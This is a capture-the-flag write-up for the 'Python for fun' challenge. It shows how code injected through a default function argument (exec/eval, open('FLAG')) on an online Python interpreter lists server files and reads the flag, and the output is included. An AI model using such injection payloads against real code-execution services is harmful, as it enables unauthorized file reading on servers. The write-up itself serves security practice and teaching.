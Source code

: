 # **Python for fun**

#### tag : misc

-----------------------------------------------

#### Description

>Welcome to noxale's online python class!!! You can try it for free for a limited time and learn basic programming in python 3. http://chal.noxale.com:8000

-----------------------------------------------

#### Solution

There are three tabs that give me python3's problems. But I focus second tab that give me result of interpreter.

When payload is `a,b`

~~~

def fun(a,b):
  c = a + b
  return c

print(fun(10,12) == 22)

~~~

~~~

True

~~~

When payload is `a,b=exec('import os'),eval('os.listdir("./")')`

~~~

def fun(a,b=exec('import os'),eval('os.listdir("./")')):
  c = a + b
  return c

print(fun(10,12) == 22)

~~~

~~~

None ['db.sqlite3', 'learn_python', 'python_ctf_thing', 'Dockerfile', 'FLAG', 'manage.py', 'requirements.txt', 'templates']
True

~~~

When payload is `a,b=print(open('FLAG').read())`

~~~

def fun(a,b=print(open('FLAG').read())):
  c = a + b
  return c

print(fun(10,12) == 22)

~~~

~~~

noxCTF{py7h0n_15_4w350m3}
True

~~~

**noxCTF{py7h0n_15_4w350m3}**

